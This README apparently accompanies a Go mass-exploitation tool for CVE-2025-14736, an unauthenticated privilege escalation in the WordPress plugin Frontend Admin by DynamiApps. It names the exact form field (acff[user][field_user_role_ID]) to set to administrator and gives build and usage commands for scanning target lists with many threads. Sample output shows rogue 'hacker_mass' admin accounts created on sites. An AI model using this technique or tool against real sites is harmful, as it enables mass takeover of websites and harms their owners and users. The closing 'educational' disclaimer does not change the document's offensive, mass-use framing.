

# CVE-2025-14736

## Frontend Admin by DynamiApps - Unauthenticated Privilege Escalation

**Author:** Hyun Chiya

---

## Vulnerability Information

| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-14736 |
| **Plugin** | Frontend Admin by DynamiApps |
| **Affected Versions** | <= 3.28.25 |
| **Vulnerability Type** | Unauthenticated Privilege Escalation |
| **Severity** | Critical |

## Description

The Frontend Admin plugin for WordPress is vulnerable to unauthenticated privilege escalation due to insufficient validation on user-controlled fields during registration. Attackers can inject arbitrary roles, including `administrator`, by manipulating the form submission payload.

## Root Cause Analysis

The vulnerable logic resides in the handling of form submissions where the `role` field is trusted from user input without verifying if the user is authorized to assign that role. Specifically, the field `acff[user][field_user_role_ID]` can be modified to `administrator`.

## Exploitation Flow



## Prerequisites

1. Target has "Frontend Admin" plugin installed (vulnerable version).
2. A frontend registration form is enabled and accessible.

## Build

```bash
go build -o mass_exploit.exe mass_exploit.go
```

## Usage

### Mass Scan & Exploit
```bash
.\mass_exploit.exe -l list.txt -t 50
```

### Options

| Argument | Description |
|----------|-------------|
| `-l` | Path to list of target URLs (default: list.txt) |
| `-t` | Number of concurrent threads (default: 10) |
| `-timeout` | Request timeout in seconds (default: 15) |

## Example Output

```
>> [ ONLINE ]    
    ╔═══════════════════════════════════════════════════════════════════════════════════════╗
    ║   CVE-2025-14736 - Mass Exploit Tool                                                  ║
    ║   Frontend Admin by DynamiApps Privilege Escalation                                   ║
    ║   Author: Hyun Chiya                                                                  ║
    ╚═══════════════════════════════════════════════════════════════════════════════════════╝

>> [ INFORMATION ]
[*] Loaded 500 targets. Starting scan with 50 threads...

[SUCCESS] http://target.com | User: hacker_mass | Pass: Password123! | FormID: 48
[SUCCESS] http://example.org | User: hacker_mass | Pass: Password123! | FormID: 32

[*] Scan complete.
```

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. Use responsibly.

## Author

**Hyun Chiya**
